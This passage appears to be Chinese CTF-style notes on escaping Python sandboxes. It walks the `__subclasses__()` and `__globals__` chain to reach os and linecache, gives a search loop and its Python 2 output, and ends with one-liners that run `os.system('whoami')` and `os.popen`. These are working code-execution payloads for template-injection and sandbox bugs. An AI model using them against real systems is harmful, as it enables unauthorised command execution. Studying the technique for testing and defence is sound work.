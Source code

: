 获取某个子类所在命名空间的所有内容 (子类必须重载过 `__init__`)

```python
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__
''.__class__.__mro__[-1].__subclasses__()[59].__init__.func_globals
```

Python 2 两种方式都能用

Python 3 只能用 `__globals__`

查找对应模块

```python
search = ['os', 'open', 'popen', 'linecache', '__builtins__']
for index, item in enumerate(''.__class__.__mro__[-1].__subclasses__()):
    for name in search:
        try:
            if name in item.__init__.__globals__:
                print(name, index, item)
        except:
            pass
```

有时候可能要递归查找, 这里留个坑, 遇到了再写...

### Python 2

回显如下

```python
('linecache', 59, <class 'warnings.WarningMessage'>)
('__builtins__', 59, <class 'warnings.WarningMessage'>)
('linecache', 60, <class 'warnings.catch_warnings'>)
('__builtins__', 60, <class 'warnings.catch_warnings'>)
('__builtins__', 61, <class '_weakrefset._IterationGuard'>)
('__builtins__', 62, <class '_weakrefset.WeakSet'>)
('os', 72, <class 'site._Printer'>)
('__builtins__', 72, <class 'site._Printer'>)
('os', 77, <class 'site.Quitter'>)
('__builtins__', 77, <class 'site.Quitter'>)
('open', 78, <class 'codecs.IncrementalEncoder'>)
('__builtins__', 78, <class 'codecs.IncrementalEncoder'>)
('open', 79, <class 'codecs.IncrementalDecoder'>)
('__builtins__', 79, <class 'codecs.IncrementalDecoder'>)
```

通过 os 和 linecache 包执行命令

```python
# os
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].popen('whoami').read()

''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].__dict__['system']('whoami')
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].__dict__['popen']('whoami').read()

# linecache
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].popen('whoami').read()
```
